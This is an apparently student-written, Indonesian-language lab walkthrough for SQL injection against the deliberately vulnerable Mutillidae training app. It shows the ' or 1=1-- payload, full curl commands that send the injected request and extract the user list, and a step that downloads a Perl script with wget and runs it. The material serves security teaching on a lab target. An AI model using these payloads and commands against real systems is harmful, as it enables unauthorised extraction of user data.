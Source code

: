 Note : harus mengganti settingan database pada metasploit, database name diubah menjadi owsp10

 1. Buka Mutillidae pada Browser dengan IP/mutillidae
 2. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
 ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/section%208%20user%20info.PNG "Tampilan USer Info")
 3. Settig proxy firefox dengan alamat 127.0.0.1:8080
 4. Setting Burpsuite, dengan menonaktifkan intercept
 5. Di page user info masukkan username:
  ' 1=1-- 
  Lihat URL yang dihasilkan. Url yang dihasilkan seperti berikut : 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Tampilan User Page Info")
  http://192.168.149.101/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details
      Terlihat +or+1%3D1-- 
        Keterangan :
        + : space
        %3D : =
   ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/SQL%20Injection%20Obtain%20Userlist.PNG "LIST Username")
  6. Lihat di history http di burpsuite. History burpsuite menunjukkan encoded sql injection. Untuk proses selanjutnya menggunakan curl.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/history%20burpsuite.PNG "History burpsuite")
  7. SQL injection dengan curl. dengan perintah " curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}' "
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20curl.PNG "HASIL CURL")
  
  8. Membuat output file dengan memasukkan hasil curl pada lesson7.txt dengan perintah "  curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep "Username=" > lesson7.txt  " 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20cat%20lesson7.PNG "HASIL CAT CURL")
  
  9. Selanjutnya adalah SQL injection dengan Perl. Download Script Output parser, dengan perintah wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
  10. Rename menjadi extensi perl, dengan perintah mv lesson7.pl.TXT lesson7.pl
  11. ubah permission agar dapat membaca dengan perintah chmod 700 lesson7.pl
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/download%20output%20parser.PNG "HASIL DOWNLOAD PERL")
  
  12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
   
